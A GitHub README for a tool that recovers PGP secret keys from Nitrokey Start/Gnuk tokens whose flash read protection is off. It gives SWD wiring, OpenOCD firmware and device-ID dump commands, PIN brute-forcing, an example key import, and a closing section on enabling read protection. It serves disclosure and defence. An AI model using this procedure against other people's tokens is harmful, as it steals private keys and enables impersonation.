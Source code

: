 Gnuk Extractor
==============

This tool can extract the PGP secret keys from the dumped firmware of a [Gnuk](https://salsa.debian.org/gnuk-team/gnuk/gnuk) token.
It was tested on a [Nitrokey Start](https://shop.nitrokey.com/shop/product/nitrokey-start-6)
and on a Gnuk Token made from a [$2 ST-LINK/V2 clone](https://blog.danman.eu/2-usb-crypto-token-for-use-with-gpg-and-ssh/).

In theory, the flash memory on the *Nitrokey Start* should have the read protection enabled.
However, [this was not the case](https://github.com/Nitrokey/nitrokey-start-firmware/issues/14) on the one I received.
The [next section](#extract-firmware-and-unique-device-id) describes how to verify if the read protection is enabled and extract the firmware if it is not.
Then, this tool can be used to bruteforce the PIN and extract the PGP secret keys.
Finally, the [last section](#how-to-protect-a-gnuk-token) explains how to protect a Gnuk Token against this attack.


Extract Firmware and Unique Device ID
-------------------------------------

The Gnuk firmware and the unique device ID (UDID) can be extracted from the STM32 microcontroller through the
[Serial Wire Debug](https://en.wikipedia.org/wiki/JTAG#Similar_interface_standards) (SWD) interface.
The following pictures show where to solder the 4 SWD wires on a *Nitrokey Start*
and how to connect them to a cheap [ST-LINK/V2 clone](https://www.aliexpress.com/wholesale?SearchText=st-link+v2).

![SWD connection on Nitrokey side](resources/swd-nitrokey.jpg)
![SWD connection on ST-LINK/V2 side](resources/swd-stlinkv2.jpg)

[OpenOCD](http://openocd.org/) can then be used to dump the flash memory and read the STM32 UDID.
The Gnuk token must also be connected to USB before executing the following commands.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
wrote 131072 bytes to file firmware.bin from flash bank 0 at offset 0x00000000 in 2.207341s (57.988 KiB/s)

$ openocd -f resources/stm32udid.cfg
...
0x1ffff7e8 34 ff 6c 06 4e 55 37 32 26 33 24 43             4.l.NU72&3$C
```

In the above example, the firmware was successfully extracted to `firmware.bin` and the STM32 UDID is `34ff6c064e55373226332443`.

On devices where the read protection is correctly enabled, the output looks similar to the following one.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
Error: error reading to flash at address 0x08000000 at offset 0x00000000
Error: Read error

$ openocd -f resources/stm32udid.cfg
...
embedded:startup.tcl:21: Error: error reading target @ 0x00000
```

This means that the firmware cannot be extracted through the SWD interface and this tool cannot be used to recover the PGP secret keys.


Install in a virtualenv
------------------------

```
git clone https://github.com/rot42/gnuk-extractor
virtualenv -p python3 venv
. ./venv/bin/activate
pip install -r requirements.txt
pip install ./gnuk-extractor
```


Gnuk extractor usage
--------------------

```
usage: gnuk-extractor [-h] [-o FILE] [-d DICT] -f FW -k PUB -u UDID

Extract PGP private key from GNUK / Nitrokey Start firmware.

optional arguments:
  -h, --help            show this help message and exit
  -o FILE, --out FILE   export private key to FILE [default: stdout]
  -d DICT, --dict DICT  password dictionary

required arguments:
  -f FW, --fw FW        GNUK / Nitrokey Start firmware
  -k PUB, --key PUB     corresponding GPG public key
  -u UDID, --udid UDID  STM32 unique device ID
```

### Example

```
$ gnuk-extractor -f tests/firmwares/nistp256.firmware.bin \
                 -k tests/pubkeys/nistp256.pub.key.asc \
                 -u 34ff6c064e55373226332443 | gpg --import
[INFO] Firmware unlocked with default password: b'123456'
gpg: key BD9FD171C654FBBB: public key "NIST P-256 test key <secp256r1@test.key>" imported
gpg: key BD9FD171C654FBBB: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg -K
/home/user/.gnupg/pubring.kbx
-----------------------------
sec   nistp256/0xBD9FD171C654FBBB 2019-04-26 [SC] [expires: 2029-04-23]
      41516C79920336EFFD758288BD9FD171C654FBBB
uid                   [ unknown] NIST P-256 test key <secp256r1@test.key>
ssb   nistp256/0x4FC05EC0115BA7C8 2019-04-26 [E] [expires: 2029-04-23]
ssb   nistp256/0x395F280AA0766B5A 2019-04-26 [A]
```


How to Protect a Gnuk Token
---------------------------

There are two options to enable the read protection on a Gnuk token.

1. It is possible to [ugprade the firmware](https://github.com/Nitrokey/nitrokey-start-firmware/blob/gnuk1.2-regnual-fix/prebuilt/README.md#firmware-upgrade-instructions) through USB.
   The `upgrade_by_passwd.py` script will enable the read protection after installing the new firmware.
   This will however delete the secret keys from the token, so this method can only be used if the user has a backup of their PGP secret key.
  
        $  python3 ./upgrade_by_passwd.py ../prebuilt/RTM.7/regnual.bin ../prebuilt/RTM.7/gnuk.bin 
        Admin password: 
        ...
        Protecting device
        Finish flashing
        Resetting device
        Update procedure finished
        ...

2. The read protection can also be enabled through the SWD interface. This method has the advantage of not erasing the keys currently on the token, but requires a bit of soldering.
   The 4 SWD wires should be connected [as described above](#extract-firmware-and-unique-device-id) and then *OpenOCD* can be used to enable the read protection.

        $ openocd -f resources/stm32lock.cfg 
        ...
        Info : device id = 0x20036410
        Info : flash size = 128kbytes
        stm32x locked
        target halted due to debug-request, current mode: Thread 
        xPSR: 0x01000000 pc: 0x08000268 msp: 0x20005000

